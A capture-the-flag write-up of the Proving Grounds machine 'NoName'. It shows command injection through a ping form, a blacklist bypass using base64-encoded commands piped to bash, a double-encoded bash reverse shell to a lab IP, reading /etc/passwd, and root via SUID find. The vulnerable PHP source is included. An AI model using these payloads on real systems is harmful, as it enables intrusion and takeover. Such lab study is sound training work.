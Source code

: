 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil.png
---
```



## NMAP

PORT   STATE SERVICE
80/tcp open  http


## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 



![](assets\images\noname-pg\2022-07-27-15-23-21.png)

- Checking burp request 

![](2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked

![](2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](2022-07-27-16-26-33.png)

- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        ![](2022-07-27-16-48-44.png)

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](2022-07-27-16-46-09.png)

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](2022-07-27-16-52-16.png)

- `find . -exec /bin/sh \; -quit`

- and we are root.

![](2022-07-27-16-54-22.png)


